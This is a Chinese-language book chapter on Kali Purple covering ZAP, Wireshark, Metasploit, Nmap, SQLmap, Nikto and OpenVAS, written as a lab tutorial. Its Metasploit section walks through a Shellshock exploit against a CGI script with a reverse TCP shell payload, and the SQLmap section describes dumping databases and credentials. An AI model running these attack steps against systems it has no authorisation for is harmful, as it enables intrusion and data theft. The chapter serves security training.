


# 第十章：整合红队与外部工具

在我们即将结束对 Kali Purple 操作系统的介绍时，仍有一些空白需要填补。我们已经介绍了一套强大的蓝队工具，但并非所有这个操作系统提供的工具都用于网络防御。在本章中，我们将探讨一些在 Purple 发行版出现之前就已经是 Kali Linux 本地工具的内容。我们还将介绍一些非常受欢迎的红队工具，这些工具与 Kali Linux 兼容，但不一定包含在默认的发行版中。

希望在阅读本书之前，或者至少在阅读本书过程中，你已经在网络安全社区中投入了一些时间。如果没有，请记住，这并不影响你现在去做！无论如何，不管你曾经做过多少独立学习，你大概已经注意到在某些行业相关的工具集中，总会出现几个相同的品牌。

最近，在流行的职业社交网站 LinkedIn 上进行了一项投票，许多知名工具展开了类似*March Madness*的竞技对决，并让社区投票选出它们最喜欢的工具，最终产生了一个“冠军”。这项不具科学性的纯娱乐投票中，**Nmap**作为最受欢迎的工具脱颖而出，**Burp Suite**紧随其后，而我们将在本章中讨论的其他工具——**Metasploit**、**Wireshark**和**Zed Attack Proxy**（**ZAP**）也都排名靠前。

每个工具都有一个专门的章节，除了 Nmap，它将被归类到一个名为*扫描器*的章节，该章节详细介绍了多种类型的扫描器。值得注意的是，Nmap 也包含在**Metasploit**中——这可能会让你好奇为什么 Metasploit 没有在那个有趣的投票中获胜。原因是，有时候人们需要简单的工具，有时候则需要完整的武器库。这完全是主观的，随着你在网络安全领域的成长，你会调整甚至改变自己的看法，但最终会发展出一种独特的风格，这种风格将与你的个性密切相关。

本章将涵盖以下主题：

+   OWASP ZAP

+   Wireshark

+   Metasploit

+   扫描器

+   密码破解工具

+   Burp Suite

# 技术要求

本章的要求如下：

+   **最低要求**：一台计算设备，具有*amd64 (x86_64/64 位)*或*i386 (x86/32 位)*架构。至少应包含*8 GB*的 RAM。

+   **推荐要求**：根据网络安全行业从业者的反馈，建议使用*amd64 (x86_64/64 位)*架构并配备*16 GB*的 RAM——更多的内存更好——以及最多*64 GB*的额外磁盘空间。本章中的一些应用程序占用资源较多，虽然它们可以在最低要求下运行，但我们不能保证会很顺利。

# OWASP ZAP

我们将开始探索一个由**开放式网站应用安全项目**（**OWASP**）开发的产品。这是一个致力于改善软件安全性的非营利组织。OWASP 是一个全球社区，致力于创建免费资源和工具，以及标准，以帮助组织获取、开发和维护软件和网站应用程序，并强调安全性。

OWASP 专注于生成和提高关于网站应用安全及相关风险的意识。它提供建议，认为构建和测试安全网站应用的最佳实践。OWASP 以协作和开放的安全方式而闻名，专注于透明度，并通过社区驱动的倡议。它的一些活动包括开发安全标准、组织会议和活动、维护广泛的安全知识库，并支持各种开源项目，例如我们即将讨论的 ZAP。

OWASP 的旗舰产品之一，ZAP 是一个开源的网站应用安全测试工具，提供多种关键功能，使其成为安全专业人员的多功能和吸引人的选择。让我们来看看其中一些功能是什么：

+   **主动和被动扫描**：ZAP 提供主动和被动扫描功能，用于识别网站应用中的潜在安全漏洞。在这个上下文中，主动扫描是指 ZAP 主动向目标应用发送请求，以识别这些漏洞。另一方面，被动扫描是指 ZAP 监视浏览器和目标应用之间已经发生的流量，以检测安全漏洞，而无需直接与目标应用交互。

+   **自动化扫描**：ZAP 提供自动化扫描程序，用于扫描网站应用程序中常见的漏洞，如**跨站脚本攻击**（**XSS**）和 SQL 注入。自动化扫描程序还可以自动检测漏洞。像所有自动化一样，这旨在提高效率，节省时间和精力。

+   **拦截和修改 HTTP 请求**：ZAP 允许用户拦截**超文本传输协议**（**HTTP**）请求，这是浏览器和应用程序之间传输的信息形式。用户可以操纵这些请求和响应，以测试安全漏洞和配置错误。

+   **模糊测试**：模糊测试，或称为 **fuzzing**，是一种测试方法，允许测试者对应用程序输入无效或意外的信息。举个例子，当应用程序期待一个数字时，测试者可能会输入字母或特殊字符，或者当某个值在某种情况下不合逻辑时，返回一个负数。ZAP 具有内置的模糊测试功能，用户可以测试 HTTP 请求的不同部分，以发现并识别潜在的安全漏洞。

+   **脚本支持**：我们已经多次讨论过脚本。它是一种强大的方式，可以为我们讨论的许多工具开发自动化行为。ZAP 支持多种脚本语言，包括 JavaScript、Ruby 和 Python。尽管本书重点介绍 Python，因为它在网络安全相关工具和行业中有着广泛的使用和接受，但如果你希望扩展并在其他语言中发展技能，你并不局限于使用 Python。JavaScript 的好处在于它在网站/页面开发中也被广泛使用，而 Ruby 也有广泛的应用。

+   **REST API**：我们在 *第八章* 开头解释了 REST 和 API 的含义，那个时候我们讨论了 **Cortex**。如果你需要复习，可以参考那一部分。简而言之，这些概念允许不同技术之间的集成。换句话说，ZAP 支持 REST API，使得其他应用可以使用它来与它们的工作流和 **持续集成/持续部署**（**CI/CD**）管道进行集成。

+   **认证支持**：ZAP 在测试应用程序的认证方面特别有用。它提供了通过诸如表单认证、HTTP 认证和客户端证书认证等机制进行测试的支持。ZAP 内部有认证配置设置，用户可以使用这些设置来测试应用程序的这些方面。

ZAP 应该已经安装在你的 Kali Purple 实例中了。为了确认，我们可以快速检查一下；如果已经安装，Kali 会告诉我们。如果没有，我们可以选择环境左上角的 Kali 龙图标，然后在搜索栏中输入 **ZAP**，或者向下滚动并高亮 **Identify**，然后将光标移到右侧新展开的列中。完成这些操作后，我们可以向下滚动，找到并点击 **ZAP** 选项。

输入 **sudo apt update**；如果结果提示你进行升级，输入 **sudo apt upgrade** 进行安装。完成后，输入 **sudo apt install zaproxy** 来正式安装 ZAP。

现在让我们启动应用程序。为此，输入 **zaproxy**。系统会询问你是否希望保存会话。决定权在你：

图 10.1 – ZAP 启动屏幕 – 请求持久化

持久化会话意味着保持 ZAP 当前的状态。它会保存应用程序的状态，包括所有配置、设置、数据和活动，以便稍后可以访问并恢复这些活动。这些设置可能包括扫描结果，无论是主动还是被动的，可能会包括任何已识别的漏洞、警告或其他发现、代理 HTTP 请求和响应时截获的任何信息，例如头部、参数、cookie 和内容，以及保存的任何会话请求、执行的脚本或保存的凭据和令牌。

ZAP 有自己的内部包更新器。是否使用它取决于你。我们将在窗口右下角选择**全部更新**按钮：

图 10.2 – ZAP 启动屏幕 – 请求持久化

要使用 ZAP，必须配置浏览器使其能够使用 ZAP 作为代理。我们为 Mozilla Firefox 和 Google Chrome 提供了配置说明，因为它们是你在 Kali Linux 中最常用的浏览器。如果你希望使用其他浏览器，简单的网页搜索应该能帮到你。

## Mozilla Firefox

按照以下步骤配置 Mozilla Firefox 使用 ZAP：

1.  在 Kali Purple 环境中启动 Mozilla Firefox。

1.  打开右上角的汉堡菜单。

1.  从下拉菜单中选择**设置**，如*图 10.3*所示：

图 10.3 – 配置 Firefox 作为代理

1.  向下滚动主窗口，直到看到**网络** **设置**部分。

1.  选择**设置…**按钮，如*图 10.4*所示：

图 10.4 – 访问 Firefox 的网络设置

1.  选择**手动代理配置**单选按钮。

1.  在**HTTP 代理**字段中输入主机 IP 地址——在我们的例子中是**127.0.0.1**——并在**端口**中输入**8080**作为值。

1.  选择**也为 HTTPS 使用此代理**框。

1.  在弹出窗口的右下角选择**确定**：

图 10.5 – 添加 Firefox 代理设置

现在，让我们来看一下 Google Chrome。

## Google Chrome

按照以下步骤配置 Google Chrome 使用 ZAP：

1.  在 Kali Purple 环境中启动 Google Chrome

1.  选择竖向省略号——即 Chrome 浏览器右上角的三个点。

1.  从下拉菜单中选择**设置**，如*图 10.6*所示：

图 10.6 – 配置 Google Chrome 作为代理

1.  在左侧栏中，向下滚动直到看到**系统**，然后选择它。

1.  主窗口将显示新的选项。选择**打开计算机的** **代理设置**：

图 10.7 – 访问 Chrome 的代理设置

1.  在**代理**部分，对于**自动检测设置**，选择开关按钮，使其显示为**关闭**，如*图 10.8*右上角所示。

1.  对于**使用代理服务器**字段，选择**设置**：

图 10.8 – Chrome 的自动检测设置

1.  在弹出框中，选择**使用代理服务器**的开关按钮，使其显示为**开启**。

1.  在**代理 IP 地址**字段中输入主机的 IP 地址 – 在我们的例子中是**127.0.0.1** – 并在**端口**字段中输入**8080**。

1.  在弹出窗口的左下角选择**保存**：

图 10.9 – 访问 Chrome 的代理设置

无论您希望使用哪个浏览器，确保在完成后完全关闭浏览器窗口，并返回到您的 ZAP 实例。在主窗口中，如*图 10.10*所示，您将看到可以选择的四个选项卡。它们是**自动扫描**、**手动探索**、**支持**和**了解更多**。我们强烈建议您花一些时间点击**支持**和**了解更多**中的链接，以了解 ZAP 的工作原理。为了证明概念，让我们设置并运行一个快速的自动扫描：

1.  选择**手动** **探索**瓷砖。

1.  在前一步中添加的**HTTP 代理**的 URL 地址添加到此处。在我们的例子中，它是**http://127.0.0.1:8080**。

1.  选中**启用** **HUD**复选框。

1.  确保在**启动** **浏览器**按钮右侧的下拉菜单中选择了 Firefox 或 Chrome 浏览器。

1.  点击**启动** **浏览器**按钮：

图 10.10 – 设置攻击目标并启动浏览器代理

1.  选择屏幕左上角的左尖括号 – 如*图 10.10*所示 – 返回主屏幕。

1.  选择并点击**自动** **扫描**瓷砖。

1.  在**攻击**字段中输入与前一步相同的 URL 地址。

1.  确保勾选**使用传统蜘蛛**字段。

1.  选择**攻击**按钮。您应该会看到一个窗口 – 在**已发送消息**下 – 开始显示您的自动扫描活动，如*图 10.11*所示：

图 10.11 – 设置攻击目标并启动浏览器代理

在本节中，我们讨论了 OWASP 的旗舰产品 ZAP 以及它在 Web 应用程序测试中的使用。然而，测试应用程序本身只是整体网络安全难题的一部分。如果你是攻击的接收方，分析流量类型可能会让你通过数据包检查发现攻击者可能使用的工具。你还可能发现已知的攻击模式或方式，帮助识别攻击者身份或特定的攻击方法。这些信息有助于缩小攻击者的目标范围，从而帮助定位可能被恶意利用的漏洞所在。在下一节中，我们将介绍一个著名的工具，它旨在拆解这些通信数据包并对其进行研究：Wireshark。

# Wireshark

本书中我们多次提到 Wireshark，它无疑是当今网络和网络安全领域中最受欢迎的网络协议分析工具。该工具允许用户捕获并交互式地浏览计算机网络中的流量。然而，它的用途不仅限于简单的漏洞和威胁识别。网络管理员可以使用它监控流量行为和状态，以解决性能问题和/或异常行为，即使这些问题与漏洞或恶意活动无关。以下是 Wireshark 主要功能的高层次概述：

+   **数据包分析**：简而言之，Wireshark 捕获网络中的数据包并以可读的格式显示，允许用户深入分析每个数据包的内容。

+   **离线分析的实时捕获**：Wireshark 的一个好功能是，用户不仅可以实时捕获数据包，还可以将这些数据包保存下来，方便之后重新打开进行离线分析。这也使得用户能够将这些数据包捕获文件作为证据附加到电子邮件或工单系统中，用于支持结论或让其他分析人员评估信息以进行比较。

+   **支持多种协议**：Wireshark 广泛的协议支持包括 TCP、UDP、IP、HTTP、HTTPS、DNS 等协议。这大大增强了 Wireshark 的实用性，因为分析人员可以检查支持最常见网络流量样式的信息。

+   **深度检查**：进行网络流量的有效分析的一部分是能够深入挖掘 Wireshark 捕获的单个数据包。这是非常详细信息所在的地方。它可能包括诸如源和目标 IP 地址、数据包的时间戳以及与所检查协议相关的详细信息等。

+   **过滤和搜索**：Wireshark 提供过滤功能，可以根据 IP 地址、协议和数据包内容等标准聚焦于特定数据包。用户还可以通过搜索特定字符串来进行过滤，这些字符串可能包含在数据包中。

+   **统计与图表**：Wireshark 提供统计分析工具和图表，帮助可视化网络流量模式、数据包分布和协议使用情况。

+   **颜色编码**：Wireshark 提供的一个非常实用的功能是能够根据不同的标准对数据包进行颜色编码，这些标准可能适用于或不适用于特定数据包。这有助于提高数据包捕获日志的可读性，并为分析人员提供高效的手段，以便缩小威胁、漏洞和/或**入侵指示符**（**IoCs**）的范围。

+   **定制化**：Wireshark 界面高度可定制，用户可以设置偏好和显示过滤器，剔除不必要的数据，缩小结果范围，仅显示用户认为重要的内容。如果用户没有找到想要的内容，他们可以轻松更改偏好，使用额外的标准显示数据，或展示完全不同的数据，即使这些数据来自同一数据包捕获。

+   **语音通信（VoIP）分析**：随着企业和个人继续采用数字通信解决方案，VoIP 流量变得越来越常见。Wireshark 也可以捕获 VoIP 数据包进行分析！通过这些数据包，用户可以监控通话质量、识别 VoIP 协议，并排除语音通信问题。

+   **跨平台兼容性**：我们之前讨论过跨平台兼容性，一般而言，这通常是指一个应用程序兼容 Windows、Linux，可能还有 macOS。Wireshark 就符合这一点，它兼容所有三大主流操作系统。

+   **捕获文件导出**：正如我们在讨论实时捕获时提到的，用户可以保存数据包捕获文件以供未来使用，包括离线检查、与同事共享或附加到工单系统作为证据。这些文件可以保存并导出为 PCAP、CSV 或纯文本文件。

+   **协议解码支持**：Wireshark 具备解码并展示来自数百种协议的数据的能力，帮助分析人员深入了解正在检查的网络通信。

和 ZAP 一样，Wireshark 应该已经安装在你的 Kali Purple 实例中。让我们像安装 ZAP 时那样，尝试重新安装它来检查。

或者，我们可以选择环境左上角的 Kali 龙图标，然后在搜索栏中输入**Wireshark**，或者向下滚动并高亮显示**Protect**，然后将光标移到右侧新展开的栏中。此时，我们可以滚动至底部，找到并点击**Wireshark**选项。

如果你更喜欢输入命令，可以输入**sudo apt update**；如果结果建议进行一些升级，输入**sudo apt upgrade**来安装它们。完成后，输入**sudo apt install wireshark**来正式安装 Wireshark。

让我们启动应用程序。为此，输入**wireshark**。当应用程序加载后，系统会要求你选择要捕获流量的网络接口。对于我们的工作示例，我们选择**eth0**接口；这个通常是列表中的第一个项目，且已经被高亮显示。选中该字段后，将光标移动到蓝色鲨鱼鳍图标上，该图标位于左上角的**文件**一词下方，如*图 10.12*所示：

图 10.12 – Wireshark – 选择网络接口并开始数据包捕获

选择左上角的**开始捕获数据包**鲨鱼鳍图标。现在，在你的 Kali Purple 环境中，打开任意网页浏览器并访问任何网站，以便为 Wireshark 创建一些流量进行捕获。完成此操作后，返回 Wireshark 应用程序并选择鲨鱼鳍图标旁边的红色方块图标停止捕获数据包。

你会立即注意到，主窗口填满了成排的数据，如*图 10.13*所示。每一行都是一个数据包捕获，且在你的环境中，它们会按颜色进行编码：

图 10.13 – Wireshark 收集网络数据包后的界面

在左下角的窗口中，即数据包详细信息窗格，你会注意到一些带有左箭头的主题，可以点击它们进行展开。这将允许你深入分析你捕获的信息。在我们的例子中，第一行将是我们在主窗口中高亮显示的帧。第二行提到我们捕获的网络接口类型，这是以太网 II。第三行告诉我们捕获的 IP 协议—在我们的例子中是 IPv4。它将我们的流量标识为 TCP 流量。然而，在数据包捕获过程中，你很可能会看到列出 UDP 的帧，频率同样很高。之后，你将看到各种不同的协议以供进一步分析，包括 DNS 和 HTTP。

Wireshark 是一款功能强大的应用程序，拥有非常悠久的历史，并且有大量免费的培训材料可以帮助你掌握这个程序，如果你想成为一个数据包捕获和分析的高手。我们在*进一步阅读*部分提供了一些有价值的链接。

Wireshark 帮助你评估攻击角度和攻击者的风格，以及攻击者的预定目标可能是什么。在接下来的章节中，我们将学习今天网络安全领域中最强大、最流行的利用和恶意有效载荷投递应用程序之一：Metasploit。它在渗透测试人员和网络犯罪分子中都很受欢迎，并且拥有一个强大的恶意有效载荷和攻击风格数据库，随时可以使用。

# Metasploit

尽管 Metasploit 通常被视为一个渗透测试框架，但任何在网络安全领域工作一年或更少的人都知道，Metasploit 也是网络犯罪分子最常用的武器之一。这个框架预先包含了各种网络攻击和恶意有效载荷。你在网络安全职业生涯中可能会遇到的其他工具也包含在 Metasploit 框架中，最著名的就是前面提到的 Nmap。尽管 Metasploit 是一个流行且有价值的渗透测试工具，但不要误解：如果落入错误之手，Metasploit 将是一个极其危险的武器。

作为红队与渗透测试的核心组件，Metasploit 已经包含在 Kali Linux 发行版中。你可以像使用其他工具一样，选择 Kali Purple 龙图标，向下滚动，鼠标悬停在**Exploitation Tools**区域上，然后从向右扩展的菜单中选择它。你也可以开始在顶部的搜索栏中输入**Metasploit**，并在它出现时选择它。

但在此之前，让我们编写脚本。通过输入**cd /usr/lib/cgi-bin**来导航到**cgi-bin**目录。然后，输入**sudo nano metatest.sh**在该位置创建脚本文件。一旦进入文件，添加以下行，如*图 10.14*所示：

+   **#! /****bin/bash**

+   **echo "****Content-type: text/html"**

+   **echo " "**

+   **echo "你已经** **被攻陷了!"**:

图 10.14 – 我们的第一个 Metasploit 攻击脚本

在启动实际应用程序之前，让我们通过按 *Ctrl* + *X* 来保存我们的脚本并关闭文件，若希望保存文件，按 *Y*（希望你会保存；否则，你得重新输入一遍！）。现在，回到 Kali Purple 龙图标，鼠标悬停在**Exploitation Tools**区域上，然后从菜单中选择**Metasploit**。

你也可以直接从命令行调用 Metasploit。但在此之前，你应通过输入**sudo msfdb init**来初始化 Metasploit 数据库。原因是我们不想让你错过任何有趣的部分。我们将立即在这里使用 Metasploit 发起一次攻击。

一旦数据库初始化完成，通过输入**msfconsole**启动程序。当你执行此命令时，由于它包含庞大的漏洞和有效载荷数据库，可能需要一些时间来加载，如*图 10.15*所示：

图 10.15 – Metasploit 初始化

现在 Metasploit 已经加载完毕，我们将找到并使用 Shellshock 漏洞。输入**search shellshock**来列出所有与该漏洞相关的攻击方式，如*图 10.15*所示。接下来，我们需要告诉 Metasploit 我们打算使用其中的哪种漏洞利用方式。我们将使用 Apache mod 版本。为此，输入**use exploit/multi/http/apache_mod_cgi_bash_env_exec**。接下来，我们需要告诉 Metasploit 攻击者机器和目标机器的 IP 地址。输入**set RHOST <target IP address>**，并确保你有权限攻击这个目标。可以像我们一样使用虚拟机的 IP 地址。然后，输入**set LHOST <attacker IP address>**，在我们的案例中，这是本地主机的 IP 地址：

图 10.16 – Metasploit 攻击准备

现在我们已经通过设置 RHOST IP 地址告诉 Metasploit 要攻击哪个设备，接下来我们仍然需要告诉它在哪里找到我们刚刚创建的脚本。输入**set targeturi /cgi-bin/metatest.sh**，并通过输入**set payload linux/x86/shell/reverse_tcp**来设置有效载荷。

你可以输入**show options**来查看已填写或可能仍需填写的所有字段。当你满意时，输入**exploit**开始攻击。终端将通知你攻击是否成功。

# 扫描器

到目前为止，我们在本章中介绍的每一个工具都有其独特的专长。在本节中，我们将介绍一组工具，它们虽然各具特色，但都属于同一个整体概念——扫描。扫描是网络攻击侦察阶段的一部分。在这个阶段，攻击者获取有用的信息，以缩小攻击向量并更好地规划攻击策略。不同的扫描器有不同的重点。我们将从极受欢迎、轻量级且经过时间考验的 Nmap 网络扫描器开始。

## Nmap

如果你去问专业的渗透测试人员列出他们最喜欢的五个工具，你会发现几乎没有人不把 Nmap 列在其中。Nmap 是一款功能强大的网络探测工具，经常用于安全审计。它旨在发现计算机网络中的网络节点——主机——以及一些与网络相关的服务。在此过程中，它能够绘制出网络结构图，因此得名。

Nmap 使用原始 IP 数据包来确定网络上哪些主机是可用的，哪些服务在这些主机上可用，包括应用程序名称和版本、主机正在运行的操作系统版本，以及正在使用的包过滤器和防火墙类型。这只是一个高层次的概述，旨在突出 Nmap 最常见的用途。它也可以用来检测许多其他特征。

下面是 Nmap 的一些关键功能：

+   **主机发现**：这是人们在想到 Nmap 时通常默认的可视化方式，尽管该工具远不止于此。主机发现的工作原理正如其名。Nmap 发送数据包穿越网络，并分析响应，以确定哪些主机在网络上可用且处于活动状态。

+   **端口扫描**：Nmap 可以扫描目标主机上的端口，识别开放的端口以及在这些端口上运行的服务。它支持多种端口扫描方式，包括 SYN 扫描、TCP 连接扫描、UDP 扫描等。这个高度的灵活性对于道德黑客/渗透测试人员以及恶意网络犯罪分子都至关重要，因为它有助于他们描绘出网络攻击面更清晰的全貌。

+   **服务版本检测**：除了广泛支持 IPv6，Nmap 还可以检测目标主机上运行的应用程序/服务版本。它还可以检测特定于网络的设备和服务。这一点非常重要，因为它有助于根据已知与特定版本相关的漏洞以及网络组成和整体布局来识别漏洞。

+   **操作系统检测**：Nmap 通过分析接收到的各种网络数据包响应，来推测目标主机上运行的操作系统。每种操作系统在操作方式上都有独特的行为，就像人类——即使是相似的人——也有微妙的独特性。

+   **可脚本化的交互**：Nmap 包含一个脚本引擎，允许用户编写脚本来自动化各种网络任务，从漏洞检测到高级网络发现任务。

+   **灵活的时序和性能**：由于在自动化中的重要性，Nmap 提供了控制扫描时序的选项。控制时序非常重要，因为它使渗透测试人员能够根据需求更加精准地平衡速度和隐蔽性。

+   **输出选项**：Nmap 支持多种输出格式，包括交互模式、grep 模式、XML 格式以及其他用于报告的格式，供其他分析人员查看扫描结果。

你可能已经开始感受到这里出现的主题，但 Nmap 应该已经在你的 Kali Purple 实例中安装好了。你可以通过在环境的左上角选择 Kali 龙图标，并在搜索框中输入 **Nmap**，或者向下滚动并高亮显示 **信息收集**，然后将光标移到右侧新展开的列中来检查这一点。完成后，继续滚动，直到找到 **Nmap** 选项。在命令行中，执行你的操作。如果需要，可以输入 **sudo apt update** 和 **sudo apt upgrade**。然后输入 **sudo apt install nmap**。

与本章中之前介绍的应用程序不同，Nmap 没有一个漂亮的 GUI 界面供你操作。你将直接通过命令行使用它，即使你是通过下拉菜单和图标调用该应用程序的。要从命令行使用 Nmap，只需输入 **sudo nmap <options> <target>**。你可以单独输入 **nmap** 以获取可用选项的列表。目标将是像 IP 地址、URL 或主机名这样的值。举个有趣的例子，在输入 **nmap** 并查看选项后，输入 **nmap -v -sn -T1 127.0.0.1**，并将你的结果与 *图 10.17* 中显示的进行比较。查看你输入的选项列表，并将其与在输入 **nmap** 后打印到屏幕上的输出列表进行比较。通过这些比较，你应该开始理解发生了什么。尽情玩弄不同的选项，但记住不要扫描任何你没有明确授权的主机、URL 或 IP 地址：

图 10.17 – 本地主机的 Nmap 示例扫描

## SQLmap

Nmap 专注于网络扫描。还有另一种漏洞扫描器，专门用于检测与 Web 应用程序相关联的 SQL 数据库中的数据库漏洞。它被恰当地命名为 **SQLmap**，并且它不仅仅是检测漏洞，它还帮助利用这些漏洞。

SQLmap 的一些关键功能如下：

+   **自动化 SQL 注入检测**：SQLmap 是专门用于自动检测 Web 应用程序中的 SQL 注入漏洞的工具，它通过分析目标的响应来执行此操作，类似于 Nmap，但它还可以利用这些漏洞。它通过各种操作执行这些漏洞利用，例如转储数据库内容、修改数据库结构或在服务器上执行任意命令。

+   **支持多个数据库管理系统**：SQLmap 支持各种数据库管理系统，包括知名的 MySQL、Oracle 和 PostgreSQL，以及 Microsoft SQL Server、SQLite 等其他系统。这增加了应用程序的灵活性。

+   **检测和数据库架构数据**：该应用程序可以识别目标数据库中存储的数据库架构、表、列和数据。这可能为渗透测试人员提供进一步利用系统或组织的非常宝贵的见解。

+   **暴力破解和基于字典的攻击**：SQLmap 支持暴力破解和基于字典的攻击，它尝试猜测数据库名称、表、列和用户帐户。

+   **SQL shell**：SQLmap 提供了一个基于 SQL 的交互式 shell，用于直接在目标系统的数据库上执行命令。这为渗透测试人员提供了一个执行高级数据库操作的途径。

+   **后端数据库凭据的枚举**：SQLmap 可以从数据库中检索用户名和密码哈希，从而促成对数据库的未经授权访问。

+   **检测文件系统访问**：通过利用服务器上发现的任何 SQL 注入漏洞，SQLmap 可以检测文件系统访问并允许访问服务器上的敏感文件。

+   **可定制的测试参数**：SQLmap 提供了广泛的测试选项和参数，可根据特定要求和目标应用程序定制扫描过程。

+   **检测盲 SQL 注入**：SQLmap 还可以检测盲 SQL 注入漏洞。这是应用程序不会显示错误响应的情况。它通过使用基于时间和基于布尔的技术来运行干扰，以检测这些漏洞。

+   **集成和支持 Web 应用程序防火墙（WAF）和其他工具**：SQLmap 可以绕过某些 WAF 和规避技术，成功利用受保护的 Web 应用程序中的 SQL 注入漏洞。它还可以与 Burp Suite 等流行的 Web 应用程序安全测试工具集成。

要获取 SQLmap，请在命令行上输入 **sudo apt update** 和 **sudo apt upgrade**（如果适用）。然后使用 **sudo apt install sqlmap**。

若要使用该应用程序，请键入 **sqlmap -u <目标>**，其中 **目标** 是您希望攻击的应用程序或数据库的目标 URL。

## Nikto

**Nikto** 是另一个扫描程序，专门用于扫描 Web 服务器。它非常轻量级且易于使用。

首先，通过执行你的**sudo apt update**和**upgrade**魔法，继续输入**sudo apt install nikto**来抓取副本。安装应该非常快速和无痛。一旦完成，由于你已经在 Kali Purple 环境中，你应该能够立即从命令行调用该实用程序并进行扫描。输入**nikto -h <目标>**。在我们的情况下，我们只扫描本地主机。所以，我们会输入**nikto -h 127.0.0.1**。如*图 10**.18*所示，它没有找到太多 - 因为我们没有太多。然而，在攻击者眼中，不一定总是需要太多。仔细查看结果；你仍然会找到大量来自扫描返回的有用信息：

图 10.18 - Kali Purple 主机系统 Web 服务器的 Nikto 扫描

我们有限的结果扫描仍然告诉我们，Web 服务器类型是 CherryPy 版本 18.9.0。哦哦哦…但是看看接下来的一行情报！这个服务器没有反点击劫持的 X-Frame 选项头。如果你是一个寻求利用的网络罪犯，你认为会做什么？没错 - 你会考虑点击劫持攻击！如果你是一名经验丰富的攻击者，你会首先搜索关于点击劫持与特定服务器类型和版本相关的任何公开信息。在许多情况下，这些信息 - 有时甚至包括逐步操作说明 - 已经存在于网络上。相反，如果你是一名渗透测试人员，现在你知道你需要进行等效研究，以了解如何提供反点击劫持 X-Frame 选项头。

## Nessus

如果你在 SOC 环境中工作，最终会遇到追溯到 Tenable Network Security 旗舰产品**Nessus**的流量。Nessus 是一个漏洞评估和管理工具，旨在帮助组织识别和修复其网络、基础设施和系统中的漏洞。

Nessus 的亮点 - 你已经在我们涵盖的其他软件中见过 - 包括以下内容：

+   可定制的漏洞扫描

+   支持多操作系统

+   API 集成和基于插件的架构

+   政策合规性和配置审计

+   补丁和修复

+   定期扫描和报告

+   风险优先级排序

+   支持云端和本地部署

+   可扩展性和性能

Tenable 的 Nessus 是一个商业产品，仅提供 7 天的免费试用。由于本书的主题是帮助将免费和开源的解决方案与同样免费的开源 Kali Purple 结合使用，我们不会在这里详细讨论它。不过，我们不得不提到这个产品，并指出它与 Kali Purple 操作系统兼容，因为它在网络安全社区中广受欢迎。如果你希望了解更多关于世界上最知名的漏洞扫描工具之一的内容，我们已在*进一步阅读*部分提供了链接。

## Greenbone 漏洞管理与 OpenVAS

OpenVAS 是一个开源的漏洞扫描版本，是 Nessus 的竞争产品。

OpenVAS 的亮点——你已经在我们之前讨论的其他软件中见过——包括：

+   漏洞扫描

+   自动化和定时扫描

+   网络发现

+   CVE 兼容性

+   报告与修复

+   可扩展性和灵活性

+   第三方集成支持

+   威胁情报数据源

+   社区广泛支持

你可以通过常规方式获取**OpenVAS**。运行**sudo apt update**和**upgrade**，现在你可能已经能闭着眼睛完成了。然后，继续输入**sudo apt install gvm-tools**。这时，过程与我们过去的做法有所不同。如果出现任何提示，接受它们并等待几分钟，**Greenbone**（包括 OpenVAS）将会安装完成。安装完成后，你仍然需要进行一些配置。在左上角选择 Kali 龙标志，开始输入**gvm**，直到出现一些**gvm**字段，如*图 10.19*所示：

图 10.19 – Kali 龙标志下的 Greenbone 管理选项

首先选择**gvm 初始设置**并让它自行运行。整个过程是自动化的。然后，选择**gvm 检查设置**。系统可能会提示你通过输入**sudo runuser -u _gvm – gvm-manage-certs -a -f**来修复证书错误——相信我们，输入这个命令是值得的。它将节省你大量的时间和精力，如果你对证书不熟悉，它还会帮你避免很多麻烦。完成后，再次运行**gvm 检查设置**选项。仔细观察是否有其他错误或需要运行的命令。这个过程最棒的特点之一是，如果需要进行任何调整，它会准确地逐字符告诉你该输入什么。重复运行此功能，直到不再需要进行任何配置或调整。请记住，每次更新数据源时都会有较长的延迟。请耐心等待。操作系统并没有卡住。只是这些任务完成需要一些时间。

